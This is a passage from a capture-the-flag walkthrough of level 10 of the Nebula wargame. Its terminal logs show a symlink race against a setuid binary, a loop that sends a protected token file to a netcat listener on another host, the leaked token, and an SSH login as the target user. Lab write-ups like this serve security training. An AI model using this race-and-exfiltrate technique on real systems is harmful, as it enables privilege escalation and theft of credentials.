 Nebula system (terminal 2):

```terminal
level10@nebula:/tmp$ cd /tmp/
level10@nebula:/tmp$ ls -al
total 4
drwxrwxrwt 4 root    root    120 Nov  6 14:13 .
drwxr-xr-x 1 root    root    220 Nov  6 13:24 ..
drwxrwxrwt 2 root    root     40 Nov  6 13:24 .ICE-unix
drwxrwxrwt 2 root    root     40 Nov  6 13:24 .X11-unix
lrwxrwxrwx 1 level10 level10  18 Nov  6 14:13 test -> /home/flag10/token
-rw-rw-r-- 1 level10 level10  25 Nov  6 13:46 token
level10@nebula:/tmp$  while true; do /home/flag10/flag10 /tmp/token 192.168.56.1; done
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.56.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.56.1:18211 .. Connected!

< sniiiiiiiiip >
```

Personal system:

```terminal
root@yourcomputer:~$ nc -lk 18211
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.
.oO Oo.
Here I have full access.

< sniiiiip >

.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```

And for the big final of our race condition:

```terminal
level10@nebula:~$ ssh flag10@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula
```